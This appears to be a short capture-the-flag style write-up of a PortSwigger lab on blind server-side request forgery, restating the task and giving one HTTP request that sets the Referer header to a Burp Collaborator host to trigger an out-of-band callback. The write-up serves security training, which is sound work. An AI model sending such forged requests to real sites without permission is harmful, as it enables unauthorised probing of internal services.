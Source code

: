 # [Lab: Blind SSRF with out-of-band detection](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)

## Lab

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

## Solutions

Blind ssrf at product page:

```http
GET /product?productId=5 HTTP/1.1
...
Referer: https://collaborator
```
